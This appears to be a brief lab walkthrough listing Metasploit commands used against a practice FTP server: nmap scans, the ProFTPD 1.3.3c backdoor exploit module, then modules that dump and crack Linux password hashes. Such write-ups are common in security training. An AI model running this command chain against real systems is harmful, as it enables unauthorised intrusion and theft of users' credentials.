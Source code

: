 - Command: nmap -sS -sV 192.229.31.3
- nmap --script vuln -p 21 192.229.31.3
-  /etc/init.d/postgresql start
- exploit proftpd server using exploit/unix/ftp/proftpd_133c_backdoor

***We have exploited the target ftp server. We will use a post exploitation module to dump the system users hashes***

- use post/linux/gather/hashdump - set SESSION 1 - exploit
- use auxiliary/analyze/crack_linux
- set SHA512 true - run
